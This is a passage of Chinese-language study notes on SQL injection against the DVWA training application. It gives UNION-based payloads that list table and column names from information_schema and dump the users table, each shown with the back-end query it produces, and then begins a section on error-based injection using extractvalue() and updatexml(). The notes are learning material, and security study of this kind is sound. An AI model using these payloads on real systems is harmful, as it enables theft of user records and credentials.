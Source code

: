 ```
SELECT first_name,last_name
FROM users
WHERE user_id = 1
UNION ALL
SELECT group_concat(TABLE_NAME),1
FROM information_schema.TABLES
WHERE TABLE_SCHEMA = 'dvwa';

// 得出表名：guestbook,users

求users表中的所有字段名
前端
1' union all select group_concat(COLUMN_NAME),1 from information_schema.COLUMNS where TABLE_NAME = 'users'#

后端：
SELECT first_name,last_name
FROM users
WHERE user_id = 1
UNION ALL
SELECT group_concat(COLUMN_NAME),1
FROM information_schema.COLUMNS
WHERE TABLE_NAME = 'users';

// 得出所有字段名：
// user_id, first_name, last_name, user, password, avatar, last_login, failed_login

求users表中字段'first_name'的具体数据
前端
1' union all select first_name,last_name from users #

后端
SELECT first_name,last_name
FROM users
WHERE user_id = 1
UNION ALL
SELECT first_name,last_name
FROM users;

```
### 报错注入
- 概述：
  - 报错注入顾名思义主要是利用数据库报错来进行判断是否存在注入点，如果不符合数据库语法规则就会产生错误

  - 在MySQL高版本（大于5.1版本）中添加了对XML文档进行查询和修改的函数，这两个函数常用于报错注入
  ```
  extractvalue()
  updatexml()

  原因：当这两个函数在执行时，如果出现XML文档路径错误就会产生报错
  ```
